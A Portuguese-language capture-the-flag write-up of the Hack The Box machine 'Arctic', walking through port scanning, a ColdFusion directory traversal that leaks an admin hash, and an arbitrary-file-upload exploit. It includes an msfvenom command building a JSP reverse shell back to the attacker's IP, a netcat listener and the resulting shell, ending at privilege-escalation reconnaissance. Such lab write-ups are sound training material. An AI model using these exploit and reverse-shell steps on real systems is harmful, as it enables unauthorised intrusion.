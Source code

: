 ```yaml
---
title:     "Hack The Box - Arctic"
tags: [windows,easy,ColdFusion,CVE-2010-2861]
categories: HackTheBox
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-arctic/1.jpg)

## Enumeration

Iniciamos com nosso nmap 

```
root@kali:~/HTB-Windows/arctic# nmap -Pn -p- -T4 -oN nmap/allports_tcp 10.10.10.11
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-24 18:27 EDT
Stats: 0:02:38 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 55.64% done; ETC: 18:32 (0:02:06 remaining)
Nmap scan report for 10.10.10.11
Host is up (0.21s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 299.41 seconds
```

3 portas abertas, vamos continuar com a enumeracao

```
root@kali:~/HTB-Windows/arctic# nmap -sV -sC -p135,8500,49154 -oN nmap/specific_ports 10.10.10.11
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-24 18:45 EDT
Stats: 0:00:47 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 33.33% done; ETC: 18:48 (0:01:32 remaining)
Nmap scan report for 10.10.10.11
Host is up (0.19s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 140.13 seconds
```

fmtp?  Geralmente eu comeco pelas portas que seja mais desconhecidas, mas isso vai de cada um...

Como eu nao sei qual servico esta realmente rodando nessa porta, eu usei o proprio NC em modo verbose, mas nao foi muito util

tentei o amap tbm, mas nada de identificar

```
root@kali:~/HTB-Windows/arctic# amap -1 10.10.10.11 8500
amap v5.4 (www.thc.org/thc-amap) started at 2020-06-24 19:11:00 - APPLICATION MAPPING mode


Unidentified ports: 10.10.10.11:8300/tcp (total 1).

amap v5.4 finished at 2020-06-24 19:11:12
```

No entanto, como eh uma port 8500 e na maioria das vezes portas 8080,8081,8090 nessa faixa tem um servico web envolvido, entao eu acessei via browser 

**reference** http://www.networksorcery.com/enp/protocol/ip/ports08000.htm

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-arctic/2.jpg)

## Exploitation

Navegando nos diretorios encontrados e fazendo uma busca rapida no google podemos identificar que trata-se de um produto do ADOBE nossa missao agora eh identificar sua versao e/ou buscar exploits para isso.

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-arctic/3.jpg)

Encontrei 2 exploracoes interessantes, **Adobe ColdFusion - Directory Traversal** e **Adobe ColdFusion 2018 - Arbitrary File Upload** 

Acabei de testar o Directory Traversal e esta vuln

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-arctic/4.jpg)

Crack HASH rapiamente buscando no google encontramos a senha relacionada a hash encontrada

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-arctic/5.jpg)


```
 #Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true 
 HASH: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
 SENHA: happyday
```

Tentei login com  a senha encontrada, mas sem sucesso

![6.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-arctic/6.jpg)

Vamos tentar entao a segunda exploracao que encontramos **Adobe ColdFusion 2018 - Arbitrary File Upload**

## Reverse Shell

Depois de algumas pesquisas encontrei um exploit funcional https://forum.hackthebox.eu/discussion/116/python-coldfusion-8-0-1-arbitrary-file-upload

Entao, gerei meu payload em jsp com o seguinte comando abaixo https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/

` msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.36 LPORT=53 -f raw > shell.jsp`

Start seu ouvinte na porta escolhida usando o nc, neste caso eu usei a porta 53

```
root@kali:~/HTB-Windows/arctic# rlwrap nc -nlvp 53
listening on [any] 53 ...
```

Execute o exploit

```
root@kali:~/HTB-Windows/arctic# python exploit.py 
Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp
root@kali:~/HTB-Windows/arctic# python exploit.py 10.10.10.11 8500 /root/HTB-Windows/arctic/shell.jsp 
Sending payload...
Successfully uploaded payload!
Find it at http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

E acesse via browser a URL http://10.10.10.11:8500/userfiles/file/exploit.jsp

![7.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-arctic/7.jpg)

## Privilege Escalation

Comecamos entao a fase de escalada, vamos la...

```
root@kali:~/HTB-Windows/arctic# rlwrap nc -nlvp 53
listening on [any] 53 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.11] 49650
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\ColdFusion8\runtime\bin>

```

Agora usando o systeminfo transferimos seu output paara nosso localhost

![8.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-arctic/8.jpg)

Output do systeminfo

```
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 §£
System Boot Time:          26/6/2020, 9:21:06 §£
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 318 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.189 MB
Virtual Memory: In Use:    858 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11
```

